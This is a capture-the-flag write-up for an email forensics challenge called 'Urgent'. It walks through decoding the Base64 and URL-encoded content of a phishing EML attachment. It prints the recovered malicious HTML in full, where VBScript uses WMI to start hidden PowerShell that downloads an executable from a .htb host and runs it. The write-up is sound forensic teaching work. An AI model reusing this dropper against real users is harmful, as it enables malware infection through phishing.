



# [Cyber Apoc '24] Urgent

This was an email forensics challenge where we are given an EML message file and are required to extract the flag from
it. The given file can be found [here](forensics_urgent.zip).

## Description

> In the midst of Cybercity's "Fray," a phishing attack targets its factions, sparking chaos.
> As they decode the email, cyber sleuths race to trace its source, under a tight deadline.
> Their mission: unmask the attacker and restore order to the city.
> In the neon-lit streets, the battle for cyber justice unfolds, determining the factions' destiny.

## Analysis

An EML file is a plaintext file that contains email messages and attachments. That being said, since the file is plaintext, we can simply use any text editor to view its contents. Using VSC's syntax highlighting:



Looking at it,  we can see that the email contains two Base64 encoded strings. There is an attachment named `onlineform.html`. If we were to convert both the Base64 strings, we would get the following:



This looks like some sort of HTML code snippet, which I assume is simply the first email's content with the email's formatting. There isn't much here :(



This looks more interesting - it has some JavaScript code an obfuscated string. The `document.write(unescape())` function in JS is used to dynamically write content to an HTML document, and `unescape()` is a function that decodes URL-encoded characters. For instance, `%20` would be decoded to a space character.

## Getting the Flag

We can simply use a decoder to decode the obfuscated string. I used [CyberChef](https://gchq.github.io/CyberChef/) to decode the string:

```html
<html>
<head>
<title></title>
<body>
<script language="JavaScript" type="text/javascript">
document.write(unescape('<html>
<head>
<title> >_ </title>
<center><h1>404 Not Found</h1></center>
<script language="VBScript">
Sub window_onload
	const impersonation = 3
	Const HIDDEN_WINDOW = 12
	Set Locator = CreateObject("WbemScripting.SWbemLocator")
	Set Service = Locator.ConnectServer()
	Service.Security_.ImpersonationLevel=impersonation
	Set objStartup = Service.Get("Win32_ProcessStartup")
	Set objConfig = objStartup.SpawnInstance_
	Set Process = Service.Get("Win32_Process")
	Error = Process.Create("cmd.exe /c powershell.exe -windowstyle hidden (New-Object System.Net.WebClient).DownloadFile('https://standunited.htb/online/forms/form1.exe','%appdata%\form1.exe');Start-Process '%appdata%\form1.exe';$flag='HTB{4n0th3r_d4y_4n0th3r_ph1shi1ng_4tt3mpT}", null, objConfig, intProcessID)
	window.close()
end sub
</script>
</head>
</html>
'));
</script>
</body>
</html>
```

This code attempts to download an exe file from a remote server and executes it! Pretty interesting. But we also got the flag :)